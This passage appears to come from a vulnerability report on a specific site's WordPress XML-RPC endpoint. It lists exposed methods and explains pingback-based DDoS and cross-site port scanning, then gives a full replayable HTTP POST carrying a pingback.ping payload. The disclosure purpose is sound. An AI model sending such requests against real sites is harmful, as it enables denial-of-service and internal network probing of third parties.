```
  <value><string>wp.newTerm</string></value>
  <value><string>wp.getPosts</string></value>
  <value><string>wp.getPost</string></value>
  <value><string>wp.deletePost</string></value>
  <value><string>wp.editPost</string></value>
  <value><string>wp.newPost</string></value>
  <value><string>wp.getUsersBlogs</string></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>

```
2.XML-RPC pingbacks attacks

In this case, an attacker is able to leverage the default XML-RPC API in order to perform callbacks for the following purposes:

- Distributed denial-of-service (DDoS) attacks - An attacker executes the pingback.ping the method from several affected WordPress installations against a single unprotected target (botnet level).
- XSPA (Cross Site Port Attack) - An attacker can execute the pingback.ping the method from a single affected WordPress installation to the same host (or other internal/private host) on different ports. An open port or an internal host can be determined by observing the difference in time of response and/or by looking at the response of the request.

### Post Request:
```
POST /xmlrpc.php HTTP/1.1
Host: sifchain.finance
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: __cfduid=dcb7a4e2b0f6a7042e39b0bd33aa4128a1617428272
Upgrade-Insecure-Requests: 1
Content-Length: 285



<?xml version="1.0" encoding="UTF-8"?>
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param>
<value><string>https://your server target </string></value>
</param>
<param>
<value><string>https://sifchain.finance</string></value>
</param>
</params>
</methodCall>
```
